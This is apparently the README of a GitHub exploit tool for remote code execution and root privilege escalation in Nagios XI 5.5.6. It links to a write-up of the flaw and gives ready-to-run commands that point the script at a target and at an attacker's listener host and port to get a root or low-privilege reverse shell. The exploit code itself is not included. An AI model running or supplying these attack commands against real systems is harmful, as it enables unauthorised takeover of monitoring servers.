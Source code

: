 # Nagios XI 5.5.6 Remote Code Execution and Privilege Escalation

```
1.  Nagios XI 5.5.6
```

## Explanation of the exploit
https://medium.com/tenable-techblog/rooting-nagios-via-outdated-libraries-bb79427172

### Script Usage:

`python3 nagiosxi.py -h`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/help.png)

### For root shell

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/root.png)

### For low privilege shell

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888 -shell low`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/low_priv.png)
